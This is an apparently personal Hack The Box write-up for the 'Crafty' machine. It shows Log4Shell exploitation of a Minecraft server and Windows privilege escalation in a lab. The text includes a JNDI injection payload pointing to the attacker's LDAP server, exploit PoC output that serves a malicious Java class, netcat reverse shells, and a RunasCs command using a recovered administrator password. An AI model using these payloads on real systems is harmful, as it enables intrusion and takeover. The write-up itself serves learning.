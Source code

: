 ### Index
1. Box Information on HTB
2. Initial Nmap Enumeration
3. log4j Exploitation to get user flag
4. Privilege Escalation
	4.1  Using winPEAS.bat
	4.2  `Impacket-smbshare` using password
	4.3  Decompiling JAR using JD-GUI
	4.4  Using [RunAsC](https://github.com/antonioCoco/RunasCs) when there's no SMB, Kerberos, LDAP or WinRm.

### Box Information on HTB

```
Crafty is an easy-difficulty Windows machine featuring the exploitation of a `Minecraft` server. Enumerating the version of the server reveals that it is vulnerable to pre-authentication Remote Code Execution (RCE), by abusing `Log4j Injection`. After obtaining a reverse shell on the target, enumerating the filesystem reveals that the administrator composed a Java-based `Minecraft` plugin, which when reverse engineered reveals `rcon` credentials. Those credentials are leveraged with the `RunAs` utility to gain Administrative access, compromising the system.
```
### Initial Nmap Enumeration

```
$ nmap -p- --min-rate=1000 -Pn -T4 -sC -sV 10.10.11.249
PORT      STATE SERVICE   VERSION
80/tcp    open  http      Microsoft IIS httpd 10.0
|_http-title: Crafty - Official Website
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
25565/tcp open  minecraft Minecraft 1.16.5 (Protocol: 127, Message: Crafty Server, Users: 0/100)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 127.08 seconds

```

Again, I looked up at the writeup for this box. There were only two open ports. If you read the machine information, you will notice that you will be playing with Minecraft Server which is vulnerable to log4j vulnerability. This is the time when we are going to learn about the well-known log4j vulnerability.

### Log4j Exploitation

The Guide mode helped me to identify the vulnerability which is `log4j`. For this machine, I had to download the [Minecraft Console Client](https://github.com/MCCTeam/Minecraft-Console-Client) to interact with the target. The steps to catch the user shell are as follows. You will also need a [`log4j` PoC Code](https://github.com/kozmer/log4j-shell-poc?tab=readme-ov-file). 

Now, you need to make changes in the exploit code if you are using the one in the link above. 

![](Crafty_HTB_Code.png)

On Line 26, write `cmd.exe`. It was `/bin/sh` earlier. one more thing you will change in the same code is at Line 118. It was a `localhost`. I changed it to `crafty.htb`.
![](Crafty_HTB_Code_2.png)

Now first you will need to `respawned` your self using the Minecraft Console Client then run the exploit and start the Listener.

During the respawn, It will ask for the password. Just hit enter.

```
$ sudo ./MinecraftClient-20240816-275-linux-x64 lol
Minecraft Console Client v1.20.4 - for MC 1.4.6 to 1.20.4 - Github.com/MCCTeam
GitHub build 275, built on 2024-08-16 from commit c5dc517
Password(invisible): 
You chose to run in offline mode.
Server IP : 
Resolving crafty.htb...
Retrieving Server Info...
Server version : 1.16.5 (protocol v754)
[MCC] Version is supported.
Logging in...       
[MCC] Server is in offline mode.
[MCC] Server was successfully joined.
Type '/quit' to leave the server.
Unknown or incomplete command, see below for error
/<--[HERE]          
[MCC] You have respawned.
<lol> ${jndi:ldap://10.10.14.4:1389/a}
[MCC] You have respawned.         
<lol> ${jndi:ldap://10.10.14.4:1389/a}
lol was slain by Zombie
[MCC] You are dead. Type '/respawn' to respawn.
[MCC] You have respawned.         
[MCC] Connection has been lost.   
  
Not connected to any server. Use '/help' for help.
Or press Enter to exit Minecraft Console Client.
> 
```

Running the Exploit and starting the netcat listener.

```
$ sudo python poc.py --userip 10.10.14.4 --webport 80 --lport 4444

[!] CVE: CVE-2021-44228                                                                                                                                                 
[!] Github repo: https://github.com/kozmer/log4j-shell-poc                                                                                                              

[+] Exploit java class created success
[+] Setting up LDAP server

[+] Send me: ${jndi:ldap://10.10.14.4:1389/a}

[+] Starting Webserver on port 80 http://0.0.0.0:80
Listening on 0.0.0.0:1389
Send LDAP reference result for a redirecting to http://10.10.14.4:80/Exploit.class
10.10.11.249 - - [22/Aug/2024 01:43:35] "GET /Exploit.class HTTP/1.1" 200 -

```

Now in a Minecraft Console Client, Send your payload as a message and you will see the reverse shell

```
<lol> ${jndi:ldap://10.10.14.4:1389/a}
[MCC] You have respawned.         
<lol> ${jndi:ldap://10.10.14.4:1389/a}
lol was slain by Zombie
[MCC] You are dead. Type '/respawn' to respawn.
[MCC] You have respawned.         
```

Got the user shell. Get your user flag from the Desktop folder

```
$ nc -lvnp 4444     
listening on [any] 4444 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.11.249] 49723
Microsoft Windows [Version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. All rights reserved.

c:\users\svc_minecraft\server>whoami
whoami
crafty\svc_minecraft
```

### Privilege Escalation

#### Using winPEAS.bat 

Some of the notable information
```
Host Name:                 CRAFTY                                                                                                                     
OS Name:                   Microsoft Windows Server 2019 Standard                                                                                     
OS Version:                10.0.17763 N/A Build 17763
```

Since the user flag was captured using the `log4j`, I will also focus on Java Modules during the privilege escalations.

```
Path=C:\Program Files (x86)\Common Files\Oracle\Java\javapath;C:\Windows\system32;C:\Windows;C:\Windows\System32\Wbem;C:\Windows\System32\WindowsPowerShell\v1.0\;C:\Windows\System32\OpenSSH\;C:\Users\svc_minecraft\AppData\Local\Microsoft\WindowsApps                                                                                      

PATHEXT=.COM;.EXE;.BAT;.CMD;.VBS;.VBE;.JS;.JSE;.WSF;.WSH;.MSC   

ProgramData=C:\ProgramData                                                                                                                            
ProgramFiles=C:\Program Files                                                                                                                         
ProgramFiles(x86)=C:\Program Files (x86)        
ProgramW6432=C:\Program Files 
TEMP=C:\Users\SVC_MI~1\AppData\Local\Temp 
```

Checking the Public Folder using tree command. 
```
c:\Users>tree /f public            
tree /f public                     
Folder PATH listing                
Volume serial number is C419-63F6    
C:\USERS\PUBLIC     
����Documents     
����Downloads       
����Music         
����Pictures       
����Videos
```

Upon surfing the `C:\Users\svc_minecraft\server\plugins>` directory, I found that there was a JAR file present, that is `playercounter-1.0-SNAPSHOT.jar`.

#### impacket-smbshare using password

This box wasn't allowing me to simply use `impacket-smbserer` without password Just like I have used it. So this time, i will have to provide the credentials.

```
$ impacket-smbserver a /home/ringbuffer/Downloads/Crafty.htb -smb2support -user lol -pass lol
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

On a Windows machine
```
PS C:\Users\svc_minecraft\server\plugins> net use \\10.10.14.4\a /USER:lol lol
net use \\10.10.14.4\a /USER:lol lol
The command completed successfully.
```

Now I can transfer the JAR file onto Kali using the usual copy command. 

Upon receiving the JAR file, I installed the `JD-GUI` to decompile the JAR file and open it with `JD-GUI`.
![](Crafty_HTB_JD_GUI.png)

So the `Playercounter.class` has a rcon method which has a unique string. Seems like a password. This box doesn't have any other ports open than just port 80 and Minecraft port. I will use [RunAsC](https://github.com/antonioCoco/RunasCs) 

```
PS C:\> copy \\10.10.14.4\a\RunasCs.exe C:\tmp\RunasCs.exe
copy \\10.10.14.4\a\RunasCs.exe C:\tmp\RunasCs.exe
PS C:\> cd tmp
cd tmp
PS C:\tmp> dir
dir


    Directory: C:\tmp


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        5/19/2023   3:37 PM          51712 RunasCs.exe                                                           


PS C:\tmp> .\RunasCs.exe Administrator s67u84zKq8IXw cmd -r 10.10.14.4:5555
.\RunasCs.exe Administrator s67u84zKq8IXw cmd -r 10.10.14.4:5555

[+] Running in session 1 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: WinSta0\Default
[+] Async process 'C:\Windows\system32\cmd.exe' with pid 1004 created in background.
PS C:\tmp> 
```

While the NetCat is running on port 5555

```
$ nc -lvnp 5555           
listening on [any] 5555 ...

connect to [10.10.14.4] from (UNKNOWN) [10.10.11.249] 49683
Microsoft Windows [Version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
C:\Windows\system32>whoami
whoami
crafty\administrator
```
Get your root flag.